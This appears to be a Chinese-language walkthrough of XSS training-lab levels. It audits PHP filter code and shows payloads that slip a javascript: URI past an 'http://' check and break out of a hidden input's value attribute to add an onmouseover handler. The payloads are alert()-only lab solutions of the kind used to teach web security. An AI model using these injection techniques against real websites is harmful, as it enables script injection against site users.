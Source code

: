 这里的if是来判断是否有http://这个字符串 不然就不让传参 所以尝试在正常的代码中插入http:// 开始尝试:

```php
/*http://*/javascript:alert(/xss/)
<a href="javascr_ipt:alert(/xss/)//http://">友情链接</a>
```

发现http://不会被注释掉 放在后面呢？ payload:

```php
javascrip&#x74:alert(/xss/)//http://
<a href="javascript:alert(/xss/)//http://">友情链接</a>
```

------

## less 10

代码审计:

```php
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
```

这里$str没有输出（传参点）所以可以把重点放在$str11上面 也就是GET方式提交的t_sort 构造url:

```php
?t_sort=<script>alert(/xss/)</script>
<input name="t_sort" value="scriptalert(/xss/)/script" type="hidden">
```

发现传进去的参数被value值包裹了 + html实体化  尝试闭合value值:

```php
?t_sort=" qwe
<input name="t_sort" value="" qwe"="" type="hidden">
```

成功闭合 开始构造语句:

```php
//这边用 HTML onmouseover 事件属性 来构造
<input name="t_sort" value="" onmouseover="alert(1)" ""="" type="hidden">
```

```php
	//注意最后面的引号闭合（详解）
<input name="t_sort"  value="'.$str33.'" type="hidden">
//现在最前面输入一个引号闭合前面预置的引号 :
<input name="t_sort"  value="'.$str33.'" " type="hidden">
//"'.$str33.'" 就成为了一个单独的一个值
后面就可以跟上想要构造的语句了 然后最后在后面闭合前面我们构造的引号 变成下面的代码
<input name="t_sort"  value="'.$str33.'" " qweqweqwe " type="hidden">
```
